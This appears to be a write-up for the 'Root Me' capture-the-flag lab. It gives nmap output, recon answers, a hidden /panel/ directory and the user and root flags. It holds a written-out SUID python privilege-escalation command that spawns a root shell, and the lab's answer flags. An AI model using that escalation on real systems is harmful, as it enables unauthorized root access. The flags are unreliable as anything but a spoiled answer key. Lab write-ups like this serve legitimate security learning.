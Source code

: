 # Root Me

```
export ip=10.10.253.93
``` 

##Nmap Scan

# Nmap 7.91 scan initiated Wed Jan 27 15:43:38 2021 as: nmap -sC -sV -A -O -oN initial 10.10.253.93
Nmap scan report for 10.10.253.93
Host is up (0.064s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 199/tcp)
HOP RTT      ADDRESS
1   59.74 ms 10.9.0.1
2   59.06 ms 10.10.253.93

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan 27 15:44:04 2021 -- 1 IP address (1 host up) scanned in 25.67 seconds


## Recon

### How many ports are open?

####With **nmap**
```
2 - 22 & 80
```

### What Apache version is running?

#### With **nmap**
```
2.4.29
```

### What service is running on port 22?

#### With **nmap**
```
ssh
```

### What is the hidden directory?

#### With **gobuster**
```
/panel/
```

## Getting a shell

### user.txt
```
THM{y0u_g0t_a_sh3ll}
```

## Priv esc

### Which SUID permission file is weird?
```
/usr/bin/python
```

### root.txt

#### website **gtfobins.github.io**
#### command **./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'**

```
THM{pr1v1l3g3_3sc4l4t10n}
```